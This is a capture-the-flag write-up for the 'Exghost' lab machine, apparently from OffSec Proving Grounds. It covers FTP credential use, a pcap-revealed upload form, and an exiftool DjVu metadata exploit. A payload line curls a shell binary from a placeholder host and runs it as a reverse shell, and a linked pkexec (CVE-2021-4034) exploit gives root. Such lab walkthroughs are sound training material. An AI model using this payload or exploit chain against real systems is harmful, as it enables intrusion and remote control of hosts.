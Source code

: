 # Exghost

## Introduction

Exghost is a 'warm up' category linux machine from offsec proving grounds.  

## Enumeration

### Nmap

Nmap scan of all tcp ports.  

```
20/tcp closed ftp-data reset ttl 61
21/tcp open   ftp      syn-ack ttl 61 vsftpd 3.0.3
80/tcp open   http     syn-ack ttl 61 Apache httpd 2.4.41
```

## FTP

Login credentials found.  

```
username: user
password: system
```

A file 'backup' is found and transfered.  

## PCAP

The following file is found from the backup pcap file.  

`exiftest.php`

In the http stream, there is a POST multipart form request to exiftest.php.  

```html
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <!-- Part from this tutorial -->
    <form method="post" action="exiftest.php" enctype="multipart/form-data">
        <input type="file" name="myFile" />
        <input type="submit" value="Upload">
    </form>
    <!-- End of part from this tutorial -->
</body>
</html>
```

## User shell

Using a vuln in the exiftool, a rev shell is returned.  


Payload file.  

	
`(metadata "\c${system('curl <ip>/shell.elf && chmod 777 /tmp/shell.elf && /tmp/shell.elf')};")`


Commands.

```
sudo apt install djvulibre-bin

bzz payload payload.bzz

djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz

exiftool -config configfile '-HasselbladExif<=exploit.djvu' hacker.jpg

curl -s -F myFile=@hacker.jpg http://192.168.214.183/exiftest.php

```

## Root

The following kernel exploit (CVE-2021-4034) spawns a root shell.  

`https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py` 
